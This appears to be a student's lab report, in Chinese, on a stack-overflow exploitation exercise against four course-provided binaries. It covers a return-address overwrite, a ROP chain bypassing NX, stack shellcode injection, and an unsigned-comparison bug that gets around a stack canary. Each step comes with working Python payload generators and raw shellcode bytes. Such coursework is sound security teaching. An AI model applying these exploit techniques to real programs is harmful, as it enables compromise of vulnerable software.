




# 栈溢出攻击实验

## 题目解决思路


好的，我们从第一个题目开始重新梳理，去掉繁琐的层级，用更自然、精简的方式来表达。

### Problem 1

- **分析**：
反汇编 `problem1` 后可以看到，目标输出函数 `func1` 的起始地址位于 `0x401216`。在漏洞函数 `func` 中，程序通过 `lea -0x8(%rbp), %rax` 指令将缓冲区起始位置定在 `rbp - 8` 的地方，并随后调用了不检查长度的 `strcpy`。由于 64 位系统的栈帧结构中，缓冲区（8字节）之后紧跟着被保存的 `rbp` 指针（8字节），因此从输入起点到返回地址的偏移量总计为 16 字节。我们只需要填充这 16 字节，然后将 `func1` 的地址覆盖到原本的返回地址位置，即可实现劫持。

- **解决方案**：
编写 Python 脚本生成包含 16 字节垃圾字符和目标地址的 `ans1.txt`。代码如下：

```python
import struct

# 填充16字节以覆盖缓冲区和Saved RBP
padding = b"A" * 16

# 目标函数func1的地址 (0x401216)
target = struct.pack("<Q", 0x401216)

# 生成二进制payload文件
with open("ans1.txt", "wb") as f:
    f.write(padding + target)
```

- **结果**：
在终端执行 `./problem1 ans1.txt` 后，程序成功跳转并输出了 "Yes!I like ICS!"。

### Problem 2

- **分析**：
本题开启了 NX（不可执行栈）防护，这意味着不能直接在栈上运行代码，必须利用程序已有的指令片段进行 ROP 攻击。目标函数 `func2` 地址为 `0x401216`，通过汇编可以看到它会检查第一个参数是否等于 `0x3f8`。在 x64 架构下，函数第一个参数通过 `rdi` 寄存器传递。
我在汇编代码中找到了 `pop_rdi` 函数，其内部 `0x4012c7` 处的指令恰好是 `pop %rdi; ret`，可以用来控制寄存器。漏洞点位于 `func` 函数，`memcpy` 会将数据拷贝至 `rbp-8` 处。因此，我构造的 ROP 链结构为：16 字节填充覆盖至返回地址，接着是 `pop rdi` 的地址、参数值 `0x3f8`，最后是 `func2` 的地址。

- **解决方案**：
使用 Python 构造 ROP 链并生成 `ans2.txt`，代码如下：
```python
import struct

# 填充16字节覆盖缓冲区和Saved RBP
padding = b"A" * 16

# pop rdi; ret 指令的地址
pop_rdi = struct.pack("<Q", 0x4012c7)

# 传入 func2 的参数值 0x3f8 (1016)
arg_val = struct.pack("<Q", 0x3f8)

# 目标函数 func2 的地址
target = struct.pack("<Q", 0x401216)

# 组合 ROP 链
payload = padding + pop_rdi + arg_val + target

with open("ans2.txt", "wb") as f:
    f.write(payload)
```

- **结果**：
运行 `./problem2 ans2.txt` 后，程序成功通过 ROP 链完成传参并跳转，输出了 "Welcome to the second level!"。



### Problem 3

- **分析**：
本题虽然没有开启 NX 保护（栈可执行），但系统开启了地址空间随机化（ASLR），导致每次运行时的栈地址都会变动。为了精准跳转到栈上的代码，我利用了程序中预留的一个名为 `jmp_xs` 的辅助函数（地址 `0x401334`）。该函数会读取程序运行过程中保存的栈指针并执行跳转。
漏洞点位于 `func` 函数中，缓冲区起始于 `rbp - 0x20`，由于 `memcpy` 拷贝长度超过了缓冲区与返回地址之间的 40 字节距离（32字节缓冲区 + 8字节 RBP），因此可以实现溢出。我编写了一段 Shellcode 放在 Payload 开头，其逻辑是将 `rdi` 寄存器设为 `0x72`（即十进制的 114），然后跳转至 `func1`（地址 `0x401216`）输出结果。

- **解决方案**：
编写 Python 脚本生成 `ans3.txt`，将 Shellcode 注入栈中并配合 `jmp_xs` 触发执行。代码如下：

```python
import struct

# Shellcode: mov edi, 0x72; mov rax, 0x401216; jmp rax
shellcode = b"\xBF\x72\x00\x00\x00\x48\xC7\xC0\x16\x12\x40\x00\xFF\xE0"

# 填充至 40 字节以到达返回地址 (32字节buffer + 8字节saved rbp)
padding = shellcode + b"A" * (40 - len(shellcode))

# 返回地址指向 <jmp_xs> 地址 0x401334，以此跳回栈上执行 shellcode
target_gadget = struct.pack("<Q", 0x401334)

# 生成 payload
with open("ans3.txt", "wb") as f:
    f.write(padding + target_gadget)
```

- **结果**：
在关闭系统随机化保护后运行 `./problem3 ans3.txt`，程序成功执行了栈上的指令并输出了 "Your lucky number is 114"。


### Problem 4

- **分析**：
通过分析 `problem4` 的汇编代码，可以清晰地观察到程序启用了 **Canary（栈哨兵）保护**。在 `func`、`func1` 以及 `main` 函数的开头，程序通过 `mov %fs:0x28, %rax` 指令将一个随机生成的哨兵值存入栈中返回地址的前方；在函数返回前，则通过 `sub %fs:0x28, %rax` 进行校验，一旦检测到该值被篡改（如发生栈溢出覆盖），程序会立即调用 `__stack_chk_fail` 终止运行。
由于 Canary 的存在，传统的覆盖返回地址方法会失效。但通过阅读 `func` 函数（地址 `0x135d`）的逻辑发现，程序在处理输入金额时存在逻辑漏洞：它将用户的输入与 `0xfffffffe`（即无符号下的极大值）进行无符号比较（指令 `13ad: jae 13c0`）。如果我输入 **`-1`**，其补码表示在无符号逻辑下等于 `0xffffffff`，能够通过该判断并进入一段特定的减法循环，最终在不破坏栈结构的情况下合法地触发对 `func1` 的调用，从而绕过安全防护。

- **解决方案**：
本题不需要编写 Payload 脚本。在程序运行并提示输入金额（money）时，直接手动输入 **`-1`**。

- **结果**：
输入 `-1` 后，程序运行约一秒左右完成内部逻辑计算，随后成功调用 `func1` 并输出了 "great!I will give you great scores" 等通关信息。


## 思考与总结
通过本次实验，我从底层汇编层面深入理解了程序运行时的函数调用栈结构，以及常见的内存安全漏洞原理。
在实验过程中，我意识到栈溢出攻击的核心在于利用程序对输入长度检查的缺失，通过精心构造的 Payload 覆盖栈上的关键数据。从 Problem 1 的基础地址覆盖，到 Problem 2 中利用 ROP 技术绕过 NX 保护，再到 Problem 3 的 Shellcode 注入，攻击手段随程序防护等级的提高而演进，这让我对 x64 架构下的寄存器传参约定和指令跳转有了更具象的认识。
特别是 Problem 4 对 Canary 机制的探讨，让我明白安全防护是一个系统工程。虽然编译器通过哨兵值能有效拦截破坏栈结构的暴力溢出，但程序逻辑层面的疏忽（如无符号数判断漏洞）依然可能成为绕过防御的突破口。
同时，实验也让我深感防御性编程的重要性。在实际开发中，应尽量避免使用 strcpy、memcpy 等不安全的内存操作函数，并主动开启系统的安全防护机制。整个实验过程中，我严格遵守实验规范，仅通过构造外部输入文件实现漏洞利用，未对二进制程序本身进行非法篡改，确保了实验的安全性与合规性。


## 参考资料
Randal E. Bryant, David R. O'Hallaron. Computer Systems: A Programmer's Perspective (3rd Edition). Pearson, 2015. (特别是第3章关于机器级表示的内容)
CTF Wiki. Stack Overflow - Linux User Mode. https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/
Intel® 64 and IA-32 Architectures Software Developer’s Manual.
GCC Documentation. Instrumentation Options - Stack Smashing Protection.
